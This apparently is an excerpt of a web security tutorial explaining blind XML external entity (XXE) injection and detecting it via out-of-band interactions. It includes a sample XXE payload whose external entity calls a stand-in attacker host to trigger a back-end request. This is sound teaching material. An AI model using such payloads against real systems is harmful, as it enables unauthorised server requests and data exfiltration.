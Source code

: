 # What is blind XXE?

Blind XXE vulnerabilities arise where the application is vulnerable to [XXE injection](https://portswigger.net/web-security/xxe) but does not return the values of any defined external entities within its responses. 

There are two broad ways in which you can find and exploit blind XXE vulnerabilities:
1) You can trigger out-of-band network interactions, sometimes exfiltrating sensitive data within the interaction data.
2) You can trigger XML parsing errors in such a way that the error messages contain sensitive data.

# Detecting blind XXE using out-of-band (OAST) techniques

You can often detect blind XXE using the same technique as for [XXE SSRF attacks](https://portswigger.net/web-security/xxe#exploiting-xxe-to-perform-ssrf-attacks) but triggering the out-of-band network interaction to a system that you control. For example, you would define an external entity as follows:

```bash
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> ]>
```
This XXE attack causes the server to make a back-end HTTP request to the specified URL. The attacker can monitor for the resulting DNS lookup and HTTP request, and thereby detect that the XXE attack was successful
